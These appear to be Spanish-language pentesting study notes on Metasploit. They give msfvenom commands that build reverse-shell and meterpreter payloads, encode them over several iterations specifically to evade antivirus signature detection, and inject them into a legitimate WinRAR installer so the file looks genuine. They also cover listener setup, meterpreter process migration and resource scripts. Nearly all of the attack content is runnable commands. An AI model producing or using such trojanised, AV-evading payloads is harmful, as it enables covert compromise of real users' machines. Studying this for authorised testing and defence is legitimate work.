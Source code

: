 - En metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
```

### Encoding

>Encodear sirve para esconder las anteriores firmas ya que algunos de los **AV**, utilizan un sistema de detección de firmas

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 5 -f exe > ~/Desktop/Windows_Payloads/encode.exe
```

- Importante encodear con iteraciones
>**-e:** elige encoder

>**-i:** especificas el número de iteraciones, aunque el tamaño aumenta

- En metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
```
### Injection payloads into windows programms (portable executable)

- Inyectaremos un payload dentro de un ejecutable legit como winrar

> **-k:** Hay algunos

1. Hemos escogido winrar para inyectar el payload pero en ese programa no se puede
```bash
msfvenom -a x64 -p windows/shell_reverse_tcp LHOST=192.168.1.135 LPORT=443 -e x64/zutto_dekiru -i 15 -x winrar-x64-711es.exe -k  -f exe > winrarFunc.exe
#x86
msfvenom -a x86 -p windows/shell/reverse_tcp  LHOST=192.168.1.135 LPORT=443 -e x86/shikata_ga_nai -i 15 -x winrar-x64-711es.exe -k  -f exe > winrarFunc.exe

#Vemos como el archivo pasa como si fuese legit viendo las porpiedades, sin -k
msfvenom -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.135 LPORT=443 -e x86/shikata_ga_nai -i 15 -x winrar-x64-711es.exe  -f exe > winrarFunc.exe
```

2. Algunos procesos pueden ser parados por windows, por lo que migraremos de proceso

```bash
meterpreter > run post/windows/manage/migrate
```

### Automating scripts

>La ruta está en **/usr/share/metasploit-framework/scripts/resource**, están programados en ruby

- Script **archivo.rc**
```bash
use multi/handler
set rhosts IP
Y lo que queramos para automatizarlo
```
